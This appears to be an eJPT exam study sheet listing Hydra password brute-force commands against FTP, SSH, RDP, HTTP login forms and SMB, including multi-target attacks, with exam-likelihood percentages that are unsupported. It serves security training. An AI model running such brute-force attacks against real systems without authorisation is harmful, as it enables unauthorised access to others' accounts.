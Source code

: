 ### **🏆 Commands You MUST Know for eJPT:**

#### **Level 1 - You WILL See This (100% Chance):**
```bash
# Basic FTP password attack
hydra -l admin -p password 192.168.1.100 ftp
# Expected: Login success or failure message

# Simple wordlist attack
hydra -L users.txt -P passwords.txt target_ip ftp
# Expected: Multiple credential discoveries

# SSH password attack
hydra -l root -p toor target_ip ssh
# Expected: SSH access verification

# RDP brute force (very common in eJPT)
hydra -L users.txt -P passwords.txt rdp://target_ip -s 3333
# Expected: Windows remote access credentials
```

#### **Level 2 - Very Likely (80% Chance):**
```bash
# HTTP basic authentication attack
hydra -l admin -P passwords.txt target_ip http-get /admin
# Expected: Web admin access

# Custom port services
hydra -s 2222 -l user -P passwords.txt target_ip ssh
# Expected: Service on non-standard port

# Multi-target attack
hydra -M targets.txt -l administrator -p password123 ftp
# Expected: Multiple system compromise

# RDP with optimization for Windows
hydra -t 4 -f -L users.txt -P passwords.txt rdp://target_ip
# Expected: Faster Windows credential discovery
```

#### **Level 3 - Possible (60% Chance):**
```bash
# HTTP form-based attack
hydra target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid login" -L users.txt -P passwords.txt
# Expected: Web application bypass

# Performance optimization
hydra -t 16 -w 3 -L users.txt -P passwords.txt target_ip service
# Expected: Faster attack completion

# SMB/Windows share attacks
hydra -L users.txt -P passwords.txt target_ip smb
# Expected: Windows network access
```

